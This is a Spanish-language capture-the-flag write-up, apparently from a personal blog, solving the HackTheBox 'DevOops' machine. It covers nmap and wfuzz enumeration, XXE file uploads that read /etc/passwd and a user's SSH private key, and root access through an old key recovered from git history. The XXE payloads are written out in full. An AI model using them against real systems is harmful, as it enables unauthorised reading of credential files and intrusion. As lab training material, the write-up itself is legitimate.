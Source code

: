 ```yaml
---
layout      : post
title       : "DevOops - HackTheBox"
author      : elc4br4
image       : assets/images/HTB/DevOops-HackTheBox/DevOops.webp
category    : [ htb ]
tags        : [ Linux ]
---
```


Estamos ante una máquina Linux de nivel MEDIUM en la que explotaremos la vulnerabilidad XXE para leer archivos generando un archivo .xml y escalaremos privilegios a través de un rsa.

![](/assets/images/HTB/DevOops-HackTheBox/DevOops2.webp)

![](/assets/images/HTB/DevOops-HackTheBox/DevOops-rating.webp)

...


**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
    * [Reconocimiento de Puertos](#recon-nmap).
2. [Enumeración](#enumeración).
    * [Enumeración Web](#enum-web).
3. [Explotación](#explotacion).   
    * [Burpsuite](#burpsuite).
 5. [Escalada de Privilegios](#privesc). 
    * [Git](#git).   


...

# Reconocimiento [#](reconocimiento) {#reconocimiento}

----

## Reconocimiento de Puertos [📌](#recon-nmap) {#recon-nmap}

Para comenzar lanzo la herramienta WhichSystem para identificar ante que sistema operativo nos enfrentamos.

![](/assets/images/HTB/DevOops-HackTheBox/WhichSystem.webp)

Ya se que estamos ante una máquina Linux, asique a continuación escanearé los puertos existentes en la máquina.

```nmap
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```
Tenemos el puerto 22(ssh) y el puerto 5000 (upnp).

Pero necesito más información del puerto 5000 asique escanearé los puertos de forma más avanzada.

```nmap
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 42:90:e3:35:31:8d:8b:86:17:2a:fb:38:90:da:c4:95 (RSA)
|   256 b7:b6:dc:c4:4c:87:9b:75:2a:00:89:83:ed:b2:80:31 (ECDSA)
|_  256 d5:2f:19:53:b2:8e:3a:4b:b3:dd:3c:1f:c0:37:0d:00 (ED25519)
5000/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ahora ya tenemos algo más de información, asique procedo a enumerar el servidor web.

# Enumeración [#](enumeración) {#enumeración}

----

## Enumeración Web [📌](#enum-web) {#enum-web}

Accedo desde el navegador al servidor web.

![](/assets/images/HTB/DevOops-HackTheBox/web1.webp)

Parece que el sitio está en desarrollo, pero no hay nada interesante, asique voy a fuzzear rutas.

Usaré la herramienta wfuzz para enumerar rutas en el servidor web.

`wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.91:5000/FUZZ --hl=4`

![](/assets/images/HTB/DevOops-HackTheBox/wfuzz.webp)

* upload
* feed

En la ruta feed no hay nada que pueda servirme.

Pero en la ruta upload hay un panel de subida de archivos

![](/assets/images/HTB/DevOops-HackTheBox/web2.webp)

# Explotación [#](explotacion) {#explotacion}

----

## Burpsuite [🔥](#burpsuite) {#burpsuite}

Pruebo a subir una reverse shell en php y capturar la petición con Burpsuite.

![](/assets/images/HTB/DevOops-HackTheBox/revphp.webp)

Pero no ocurre nada, aunque si nos fijamos en el servidor web veremos esto.

> `XML elements: Author, Subject, Content`

Debemos subir un archivo XML que contenga los campos Author, Subject y Content.

Si hablamos de XML... se me ocurre XXE, asique buscaré información sobre la vulnerabilidad XXE.

Buscando encuentro información en la web de OWASP.

[https://owasp.org/www-community/vulnerabilities](https://owasp.org/www-community/vulnerabilities)

![](/assets/images/HTB/DevOops-HackTheBox/XXE.webp)

La sintaxis del archivo será la siguiente,añadiremos los campos Author, Subject y añadiremos el campo Content.


```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
  <Author>&xxe;</Author>
  <Subject>mysub</Subject>
  <Content>mycontent</Content>
</creds>
```

Subimos el archivo y capturamos la petición con Burp.

Enviamos la petición al Repeater y la enviamos haciendo click en send.

![](/assets/images/HTB/DevOops-HackTheBox/Burp1.webp)

Y como vemos tenemos el archivo passwd para leer.

Encuentro varios usuarios

```users
git:x:1001:1001:git,,,:/home/git:/bin/bash
roosa:x:1002:1002:,,,:/home/roosa:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
blogfeed:x:1003:1003:,,,:/home/blogfeed:/bin/false
```
El más destacable es _roosa_, asique igual que he leido el archivo passwd intento leer el archivo id_rsa del usuario roosa para poder conectarme por ssh.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id-rsa" >]>
<creds>
  <Author>&xxe;</Author>
  <Subject>mysub</Subject>
  <Content>mycontent</Content>
</creds>
```

![](/assets/images/HTB/DevOops-HackTheBox/Burp2.webp)

Y ahí lo tenemos, asique me lo copio a un archivo y le asigno los permisos 400 con `chmod 400 id_rsa`.

Una vez hecho, me conecto por ssh.

![](/assets/images/HTB/DevOops-HackTheBox/ssh.webp)

Y ya podemos leer la flag user.txt


# Escalada de Privilegios [#](privesc) {#privesc}

----

## Git[👽](git) {#git}

Ahora toca escalar privilegios para leer la flag root, pero para eso debemos convertirnos en el usuario root.

Enumerando encuentro carpeta .git en la ruta /home/roosa/work/blogfeed/.git asique pruebo con el comando `git log -r` a ver que obtenemos. 

![](/assets/images/HTB/DevOops-HackTheBox/git.webp)

> reverted accidental commit with proper key

Dato curioso que decido mirar, asique si ejecuto `git log -p 6`...

![](/assets/images/HTB/DevOops-HackTheBox/git2.webp)

Tenemos dos claves rsa, una en rojo y la otra en verde, creo que debido a un error revirtieron las claves rsa, por lo tanto la roja es la clave antigua asique pruebo a copiarla y usarla para conectarme por ssh como root.

![](/assets/images/HTB/DevOops-HackTheBox/rsa.webp)

Una vez lo tenemos copiado en un archivo le asigamos los permisos 600 con `chmod 600 id_rsa2` y nos logueamos por ssh como root.

![](/assets/images/HTB/DevOops-HackTheBox/root.webp)

👨🏻‍💻Y ya hemos pwneado la máquina DevOops👨🏻‍💻

![](/assets/images/HTB/DevOops-HackTheBox/gif.gif)